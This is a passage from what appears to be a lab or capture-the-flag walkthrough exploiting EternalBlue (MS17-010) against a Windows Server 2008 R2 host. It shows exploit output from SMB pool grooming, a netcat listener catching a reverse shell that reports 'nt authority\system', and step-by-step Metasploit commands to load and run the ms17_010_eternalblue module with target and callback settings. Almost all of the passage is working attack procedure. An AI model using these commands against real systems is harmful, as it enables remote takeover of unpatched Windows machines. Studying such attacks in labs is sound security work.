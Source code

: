 **Successful Exploitation Output:**

```
[+] Target OS: Windows Server 2008 R2
[+] SMB session setup allocate non-paged pool success
[+] SMB session setup allocate non-paged pool success
[+] SMB session setup allocate non-paged pool success
[+] SMB session setup allocate non-paged pool success
[+] SMB session setup allocate non-paged pool success
[+] Done
```

### Listener Setup

```bash
# Set up netcat listener (in separate terminal)
nc -nvlp 4444
```

**Successful Connection Output:**

```
Connection from 10.10.10.12:49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Automated Exploitation with Metasploit

### Metasploit Framework Usage

```bash
# Start Metasploit
msfconsole

# Search for EternalBlue modules
search eternalblue

# Use the exploit module
use exploit/windows/smb/ms17_010_eternalblue

# Configure options
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
set LPORT 4444

# Execute exploit
exploit
```
